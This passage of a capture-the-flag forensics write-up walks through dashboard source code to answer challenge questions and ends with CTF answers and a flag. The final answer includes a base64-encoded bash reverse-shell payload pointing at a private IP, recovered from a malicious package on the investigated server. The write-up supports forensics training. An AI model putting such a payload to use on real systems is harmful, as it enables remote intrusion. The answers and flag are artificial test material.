          </Card>
        </div>

        <Tabs defaultValue="overview" className="space-y-6">
          <TabsList className="border border-slate-700 bg-slate-900 p-1">
            <TabsTrigger
              value="overview"
              className="font-bold data-[state=active]:bg-emerald-500 data-[state=active]:text-white"
            >
              <BarChart3 className="mr-2 h-4 w-4" />
              OVERVIEW
            </TabsTrigger>
            <TabsTrigger
              value="sectors"
              className="font-bold data-[state=active]:bg-emerald-500 data-[state=active]:text-white"
            >
              <PieChart className="mr-2 h-4 w-4" />
              SECTORS
            </TabsTrigger>
            <TabsTrigger
              value="holdings"
              className="font-bold data-[state=active]:bg-emerald-500 data-[state=active]:text-white"
            >
              <LineChart className="mr-2 h-4 w-4" />
              HOLDINGS
            </TabsTrigger>
          </TabsList>

          <TabsContent value="overview" className="space-y-6">
            <div className="grid grid-cols-1 gap-6 lg:grid-cols-3">
              <div className="lg:col-span-2">
                <MarketHeatmap />
              </div>
              <div>
                <TopMovers />
              </div>
            </div>
            <PortfolioOverview />
          </TabsContent>

          <TabsContent value="sectors">
            <SectorChart />
          </TabsContent>

          <TabsContent value="holdings">
            <StockTable />
          </TabsContent>
        </Tabs>
      </div>
    </div>
  )
}
```

Title: `Saham Bos 2025 - Stock Market Dashboard`\
Total Sektor: `8`\
Total Perusahaan: `40`

Answer: `Saham Bos 2025 - Stock Market Dashboard_8_40`

## Q7: Please provide the original state of all the stock codes for Technology Sector-based Stock Code!

Untuk jawabnya kita bisa lihat di salah satu file di direktori `/lib` yaitu `stock-data.ts`

```ts
export interface Stock {
  id: string
  ticker: string
  name: string
  sector: string
  price: number
  change: number
  changePercent: number
  volume: number
  shares: number
  totalValue: number
  dayHigh: number
  dayLow: number
  marketCap: number
  pe: number
  dividend: number
}

const sectors = [
  'Technology',
  'Finance',
  'Energy',
  'Healthcare',
  'Consumer',
  'Industrial',
  'Materials',
  'Telecom',
]

const companyNames = [
  ['TECH', 'TechIndo Digital', 'Technology'],
  ['BANK', 'Bank Nusantara', 'Finance'],
  ['COAL', 'Karbon Energy', 'Energy'],
  ['MEDI', 'Medika Sehat', 'Healthcare'],
  ['FOOD', 'Indo Food Corp', 'Consumer'],
  ['AUTO', 'Automotive Prima', 'Industrial'],
  ['MINE', 'Mineral Resources', 'Materials'],
  ['TELE', 'Telekom Digital', 'Telecom'],
  ['DIGI', 'Digital Solutions', 'Technology'],
  ['PROP', 'Property Mega', 'Industrial'],
  ['RETA', 'Retail Indonesia', 'Consumer'],
  ['PHAR', 'Pharma Medika', 'Healthcare'],
  ['OILG', 'Oil & Gas Indo', 'Energy'],
  ['FINA', 'Finance Capital', 'Finance'],
  ['CHIP', 'Semiconductor ID', 'Technology'],
  ['BREW', 'Beverage Corp', 'Consumer'],
  ['STLX', 'Steel Works', 'Materials'],
  ['AIRP', 'Airport Services', 'Industrial'],
  ['INSUR', 'Insurance Plus', 'Finance'],
  ['SOLAR', 'Solar Energy', 'Energy'],
  ['CLOUD', 'Cloud Computing', 'Technology'],
  ['HOTEL', 'Hotel Group', 'Consumer'],
  ['CEMEN', 'Cement Industry', 'Materials'],
  ['SHIP', 'Shipping Lines', 'Industrial'],
  ['ELECT', 'Electronics Co', 'Technology'],
  ['BANKS', 'Banking Service', 'Finance'],
  ['PLAST', 'Plastic Mfg', 'Materials'],
  ['TRANS', 'Transport Log', 'Industrial'],
  ['PHARM', 'Pharmacy Chain', 'Healthcare'],
  ['MEAT', 'Meat Producer', 'Consumer'],
  ['GOLD', 'Gold Mining', 'Materials'],
  ['BUILD', 'Construction', 'Industrial'],
  ['TOWER', 'Tower Telecom', 'Telecom'],
  ['DATA', 'Data Center', 'Technology'],
  ['INVST', 'Investment Co', 'Finance'],
  ['GAS', 'Natural Gas', 'Energy'],
  ['HOSP', 'Hospital Group', 'Healthcare'],
  ['FASH', 'Fashion Retail', 'Consumer'],
  ['CHEM', 'Chemical Ind', 'Materials'],
  ['PORT', 'Port Services', 'Industrial'],
]

export function generateStockData(): Stock[] {
  return companyNames.map((company, index) => {
    const basePrice = Math.random() * 10000 + 1000
    const change = (Math.random() - 0.5) * 500
    const changePercent = (change / basePrice) * 100
    const shares = Math.floor(Math.random() * 100000) + 10000
    const volume = Math.floor(Math.random() * 10000000) + 1000000

    return {
      id: `stock-${index}`,
      ticker: company[0],
      name: company[1],
      sector: company[2],
      price: basePrice,
      change,
      changePercent,
      volume,
      shares,
      totalValue: basePrice * shares,
      dayHigh: basePrice + Math.random() * 200,
      dayLow: basePrice - Math.random() * 200,
      marketCap: basePrice * shares * (Math.random() * 10 + 5),
      pe: Math.random() * 30 + 5,
      dividend: Math.random() * 5,
    }
  })
}

export function getSectorData() {
  const stocks = generateStockData()
  const sectorMap = new Map<
    string,
    { value: number; change: number; count: number }
  >()

  stocks.forEach((stock) => {
    const existing = sectorMap.get(stock.sector) || {
      value: 0,
      change: 0,
      count: 0,
    }
    sectorMap.set(stock.sector, {
      value: existing.value + stock.totalValue,
      change: existing.change + stock.change * stock.shares,
      count: existing.count + 1,
    })
  })

  return Array.from(sectorMap.entries()).map(([name, data]) => ({
    name,
    value: data.value,
    change: data.change,
    changePercent: (data.change / data.value) * 100,
    stocks: data.count,
  }))
}
```

ya itu tinggal di filter aja lah ya yang bagian Technology

Answer: `TECH, DIGI, CHIP, CLOUD, ELECT, DATA`

## Q8: Upon the investigation, we sought another potential threat actor compromising the machine from the different IP but we didn't see any plain IOC in the server. It looks like this threat actor was first seen in November before the exfiltration event occurs whereas there has been an unauthorized dependency/package installation in the server which we haven't validated yet. Are you able to find another IP of the attacker and its payload in base64 form?

Nah disini nih, yang stuck nya, gw nyari nya tuh package di web nya, ternyata...



ternyata dpkg, dan ada attr, yaudah jadi tinggal gini




Answer: `192.168.100.137_c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xMDAuMTM3LzgyODEgMD4mMQ==`


Flag: `CJ2025{13bf2db2271d235e2c33dc98d45482b1242df9333402f3e02ca83a9def15ac4b}`
